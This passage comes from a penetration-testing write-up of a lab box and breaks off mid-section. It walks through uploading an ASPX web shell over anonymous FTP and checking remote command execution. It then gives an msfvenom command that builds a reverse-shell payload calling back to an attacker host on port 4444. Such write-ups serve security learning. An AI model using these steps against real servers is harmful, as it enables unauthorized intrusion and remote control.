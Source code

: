 The information from the Nmap scan is very interesting and suggests some initial attack vector we can use to exploit. In addition to ANONYMOUS login being enabled on the FTP server, the files **iisstart.htm** and **welcome.png** are actually the files hosted at the web server root!

At this point, I usually like to further enumerate with tools like GoBuster using a good word list to search for hidden directories that could contain sensitive data such as **/Admin**. However, as the web root directory appears to be accessible via FTP, I will focus my attack in this direction.

## Step 2 — Gaining foothold as low privileged web application user

As the web root directory can be accessed via the FTP server, I upload a simple ASPX web shell to test both if the FTP grants write privileges, and if so, whether remote command execution (RCE) is possible.

### Testing for RCE on web server

I locate the default web shell for ASPX in Kali Linux and copy it to my local user desktop, and then upload it to the web root via FTP **PUT** command. As Anonymous FTP login is enabled, user ID is just **Anonymous** with **blank password**.

```bash
ftp 10.10.10.5
```

![ASPX webshell uploaded to victim machine](/Pen-testing-blog/assets/images/1__JliQL2Ow8NopIyKGywvS6Q.png "Figure 3 - ASPX webshell uploaded to victim machine")

I then access to the web shell via the browser at [http://10.10.10.5/cmdasp.aspx](http://10.10.10.5/cmdasp.aspx). I test RCE by issuing the **Whoami** command. The command is successful, returning the login ID of the currently logged in user, **iis apppool\\web,** confirming we have RCE.

![Successful remote code execution on victim machine](/Pen-testing-blog/assets/images/1__v9blxScERuGHExhmIzFcXA.png "Figure 4 - Successfule remote code execution on victim machine")

### Obtaining a reverse shell to victim machine as low-level privileged user

The next step after validating RCE is to obtain a reverse shell. There are several ways to obtain a reverse shell, but here I will create a custom payload encoded in the ASPX format using **msfvenom** (component of MetaSploit framework — Read more [**here**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).) I will upload this payload to web server via FTP put command as shown above. Explanation of flags and parameters:

* \-p — payload selection (simple reverse shell over TCP chosen)
* LHOST — The local IP of my Kali instance as the attacking machine
* LPORT — The local port for victim to connect (can be any open port)
* \-f — payload encoding (choose ASPX to match web server language)
* \-o — Output file name

```bash
msfvenom -p windows/shell\_reverse\_tcp LHOST 10.10.10.30 LPORT 4444 -f aspx -o reverseshell.aspx
```

Next, I will set up a Net Cat listener on my machine in listen mode to catch the reverse shell once the malicious ASPX page is accessed on the web server. Explanation of flags and input parameters:
